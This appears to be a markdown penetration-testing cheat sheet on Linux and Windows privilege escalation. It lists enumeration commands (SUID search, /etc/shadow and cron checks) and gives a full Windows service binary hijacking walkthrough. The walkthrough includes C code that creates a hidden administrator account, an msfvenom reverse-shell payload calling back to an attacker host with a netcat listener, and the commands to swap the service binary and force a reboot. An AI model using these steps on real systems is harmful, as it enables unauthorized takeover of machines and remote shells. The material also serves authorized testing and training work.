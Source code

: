 ### Privilege Escalation -
#### Linux
- `sudo -V` → Vulnerable sudo version
- `ls -al /etc/passwd /etc/shadow` → Check if passwd is writable or shadow is readable
- `sudo -l` → Sudoer permission for current user
- `find / -perm /4000 -type f 2>/dev/null` → List of SUID files
- `find / -group <group-user> 2>/dev/null` → Check which file are accessible to current user group
- `cat /etc/crontab` AND `cron -l` AND `ls -lah /etc/cron*` AND `cat /var/log/syslog` AND `/usr/sbin/CRON -f -P`  → Cron job enumeration
- `uname -r` → Vulnerable Kernel Version
	- Use this to find exploit for vulnerable version → [Linux Exploit Suggester](https://github.com/The-Z-Labs/linux-exploit-suggester)
#### Windows
- `PS> whoami /priv` → Current user privileges
- `Windows Kernel Exploits` - [Windows Kernel Exploits](https://github.com/SecWiki/windows-kernel-exploits?tab=readme-ov-file)
- Service Binary Hijacking
	- Each Windows Service has an associated binary file. These binary files (.exe) are executed when service is started. This method exploits the fact that the binary of running service can be replaced with exploit executable. For demonstration, we will assume our target service is `BinaryService`
    - Identify the Services that are running and path to there binary
	    - `PS> Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}`
		- Alternative - `PS> Get-Service | Select Name,Status | Where-Object {$_.Status -like 'Running'}`
	- Before starting once check if we can restart BinaryService. Or atleast our user has required permissions to reboot system.
		- Check `BinaryService` can be restarted
			- `PS> sc.exe stop BinaryService`
			- `PS> net stop BinaryService`
		- Check system can be rebooted
			- `PS> Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.Name -like 'BinaryService'}` → Check if StartMode is set to automatic, that will enable us to reboot system (indirectly restart system by rebooting)
			- `PS> whoami /priv` → Our user should have `SeShutDownPrivilege` in list of permissions to reboot system
	- Check permission for suspicious paths found from previous commands (usually not in `C:\Program Files\*`,`C:\Program Files (x86)\*` , but could be)
        - `PS> icacls <Path-to-BinaryService>` - Check if the permission is 'F' or 'M' for Everyone or our BUILTIN\Users
	- If we have modification permission, prepare an exploit executable
        - Executable to add new administrative user - `exploit.c`
          ```
          #include <stdlib.h>
          int main(){
          	int i;
          	i = system("net user dave2 password123! /add");
          	i = system("net localgroup administrators dave2 /add");
          	return 0;
          }
          ```
	        - `Kali> x86_64-w64-mingw32-gcc exploit.c -o exploit.exe` and share `exploit.exe` to target
	    - Reverse shell payload executable
            - `Kali> msfvenom -p windows/shell/reverse_tcp LHOST=<Attacker-IP> LPORT=4444 -f exe > exploit.exe`
			- Share executable with target
			- `Kali> nc -nlvp 4444`
	- Now, we need to replace our exploit with actual service binary. Let the service binary be `binary.exe`.
        - `PS> Move \Path\To\Binary\binary.exe .\binary.exe.bak`
		- `PS> Copy .\exploit.exe \Path\To\Binary\binary.exe`
		- `PS> icacls binary.exe /grant Everyone:F`
	- Perform binary execution
        - If restart of service allowed
            - via sc.exe
                - `PS> sc.exe stop BinaryService`
				- `PS> sc.exe start BinaryService`
			- Alternative -
                - `PS> net stop BinaryService`
				- `PS> net start BinaryService`
		- If restart of service not allowed
            - `PS> Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.Name -like 'BinaryService'}` → Check if StartMode is set to automatic, that will enable us to reboot system (indirectly restart system by rebooting)
			- `PS> whoami /priv` → Our user should have `SeShutDownPrivilege` in list of permissions to reboot system
			- If all above conditions are satisfied, execute command - `shutdown /r /t 0`
	- Check changes after service restarts
        - `PS> Get-LocalGroupMember Administrators` - Check if `dave2` user is added as Administrators user
            - OR
		- `Got reverse shell on port 4444 on local system`
